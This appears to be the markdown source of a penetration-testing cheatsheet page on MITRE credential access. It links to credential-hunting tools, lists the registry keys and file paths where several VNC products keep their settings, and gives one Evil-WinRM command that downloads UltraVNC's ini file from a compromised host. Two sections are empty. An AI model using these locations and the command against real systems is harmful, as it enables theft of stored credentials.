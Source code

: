 ```yaml
---
layout: post
title: TA0006 Credentials Access - Miscellaneous
category: pen
parent: cheatsheets
modified_date: 2022-12-12
permalink: /pen/credsaccess-misc
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Web Browsers](#WebBrowsers)
* [VNC](#VNC)
* [WinSCP](#WinSCP)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='Services'></a>Services
- [LDAP-Password-Hunter](https://github.com/oldboy21/LDAP-Password-Hunter)
- [ldapnomnom](https://github.com/lkarlslund/ldapnomnom)
- [oracle odat](https://github.com/quentinhardy/odat)

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='WebBrowsers'></a>Web Browsers

- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='VNC'></a>VNC

* VNC softwares properties :  

| software | registry key | folder |
|----------|--------------|--------|
| real vnc | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | |
| UltraVNC | | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /
```

## <a name='WinSCP'></a>WinSCP